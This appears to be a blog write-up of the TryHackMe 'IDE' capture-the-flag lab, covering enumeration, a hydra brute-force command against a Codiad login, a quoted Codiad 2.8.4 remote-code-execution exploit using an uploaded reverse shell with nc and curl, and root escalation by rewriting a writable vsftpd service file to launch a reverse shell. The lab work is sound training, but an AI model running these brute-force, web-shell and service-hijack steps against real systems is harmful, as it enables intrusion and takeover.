

# IDE
**Date:** December 4th 2022

**Author:** j.info

**Link:** [**IDE**](https://tryhackme.com/room/ide) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.0.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

An all ports scan reveals something else open:

```
PORT      STATE SERVICE VERSION
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 10918]
```

Scanning port 62337:

```
/index.php            (Status: 200) [Size: 5239]
/plugins              (Status: 200) [Size: 942] 
/data                 (Status: 200) [Size: 1949]
/js                   (Status: 200) [Size: 3702]
/config.php           (Status: 200) [Size: 0]   
/components           (Status: 200) [Size: 3943]
/common.php           (Status: 200) [Size: 0]   
/themes               (Status: 200) [Size: 1136]
/lib                  (Status: 200) [Size: 1178]
/languages            (Status: 200) [Size: 4614]
/INSTALL.txt          (Status: 200) [Size: 634]
/LICENSE.txt          (Status: 200) [Size: 1133]
/workspace            (Status: 200) [Size: 946] 
/AUTHORS.txt          (Status: 200) [Size: 413]
```

<br>

## FTP Digging

We're able to login as anonymous and find a file out there that says that drac has reset john's password:


<br>

## Website Digging

Visiting the main page shows us a default unconfigured Apach2 page:


Nothing interesting in the source code.

Looking at the website on port 62337 shows us a login page:


Also nothing interesting in the source code.

I take a look through the directories found in the gobuster scan above and they're just default files with no useful information in them. Looks like it may be time to login as john I'd bet.

Let's see what's happening on the login page when you capture a request in Burp:


It pops up a message saying "Incorrect Username or Password" on failed logins. With that and the Burp request info I can craft a hydra brute force:

`hydra -l john -P rockyou.txt $ip -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password" -f`


And logging into the webpage with the credentials we found:


Ok so we're on a Codiad 2.8.4 webpage, let's see if there are any exploits for this:


We find several and all require authentication which isn't a problem.

I try them all but none actually work for me except the last one, 50474. I use `searchsploit -m 50474` and then cat the .txt file which shows:

```
# Exploit Title: Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)
# Author: P4p4_M4n3
# Vendor Homepage: http://codiad.com/
# Software Links : https://github.com/Codiad/Codiad/releases
# Type:  WebApp

###################-------------------------##########################------------###################
#    Proof of Concept:                                                                              #
#                                                                                                   #
#   1- login on codiad                                                                              #
#                                                                                                   #
#   2- go to themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/" directory #
#                                                                                                   #
#   3-  right click and select upload file                                                          #
#                                                                                                   #
#   4- click on "Drag file or Click Here To Upload" and select your reverse_shell file              #
#                                                                                                   #
###################-------------------------#########################-------------###################

   after that your file should be in INF directory, right click on your file and select delete,

   and you will see the full path of your file

   run it in your terminal with "curl" and boom!!

/var/www/html/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php

1 -  # nc -lnvp 1234
2 - curl http://target_ip/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php -u "admin:P@ssw0rd"
```

So we should be able to upload a reverse shell file inside the Codiad software projects page and then get the webserver to run it for us.

I try and figure out how to change over to the directory they list and wasn't successful within the Codiad software, but it does work in a web browser, so I was probably doing something wrong.

I was however able to just right click the existing project and choose Upload Files to get my p.php reverse shell on the system:


<br>

## System Access

Once it's there I double click it in Codiad but that doesn't work. Looking at the very bottom of the screen there is an absolute path to the file listed:

```
/var/www/html/codiad_projects/p.php
```

I set up a listener on my system and then try and navigate to that in a web browser (on port 80, not 62337) and it gives us a shell:


And then fix my shell:


<br>

## System Enumeration

I check out the /var/www/html directory since we're logged in as www_data and find that password hashes are stored in the /var/www/html/codiad/data/users.php file, but we already have the password for john:

```php
<?php
/*|[{"username":"john","password":"55c3b5386c486feb662a0785f340938f518d547f","project":"\/var\/www\/html\/codiad_projects"}]|*/
?>
```

Other than root drac is the only other user on the system:

`cat /etc/passwd | grep bash && ls -al /home`

```
root:x:0:0:root:/root:/bin/bash
drac:x:1000:1000:drac:/home/drac:/bin/bash
total 12
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4  2021 drac
```

Looking around in the drac home directory we see the user.txt flag, but we can't view it yet.

There is a .bash_history file though:

```
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
```

Looking at it:

```
mysql -u drac -p '<REDACTED>'
```

MySQL isn't installed on the system but I'm hoping that password will work for SSH.


Alright, let's see what we can do as drac. First things first I grab the user.txt flag:

`wc -c /home/drac/user.txt`

```
33 /home/drac/user.txt
```

I look for SUID files with `find / -perm /4000 2>/dev/null` but nothing stands out.

No interesting capabilities when I check `getcap -r / 2>/dev/null`.

Looking at `sudo -l` shows us we have the following:

```
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

Interesting. I check the status of the vsftpd server which shows it's up and running:



It also gives us the path the service that's loaded which is /lib/systemd/system/vsftp.service.

I take a look at that service and notice that we have write permissions to it and are the group owner. Bingo!

```
-rw-rw-r-- 1 root drac 248 Aug  4  2021 vsftpd.service
```

Looking at the contents of the file:


I modify the file and change the ExecStart value to a standard nc mkfifo reverse shell command called by bash -c:


<br>

## Root

I then setup a listener on my system and try to restart the service but it asks that I first reload the units with `systemctl daemon-reload`. I do that, and then restart the service again, and get a root shell back!


I head over to /root and grab the root.txt flag:

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding an open **ftp server** with **anonymous access** that gives us a couple user names
- Using **hydra** to brute force a web page login to gain access to a Codiad admin panel
- Finding that Codiad was vulnerable to a **RCE via CVE-2018-14009** and using that to get an initial foothold on the system as www-data
- Discovering a password hash in a **Codiad** configuration file
- Looking through users home directories we find that a .bash_history file isn't redirecting to null, and inside it is a mysql login command with a password. We use this to move over to the drac user.
- Looking at sudo -l shows that we're able to use **/usr/bin/service vsftpd restart** as root, and we're also able to edit the service file itself
- We edit the service file to reverse shell back to us and then restart the service for root access


<br>

Many thanks to:
- [**bluestorm**](https://tryhackme.com/p/bluestorm) for creating this CTF
- [**403Exploit**](https://tryhackme.com/p/403Exploit) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)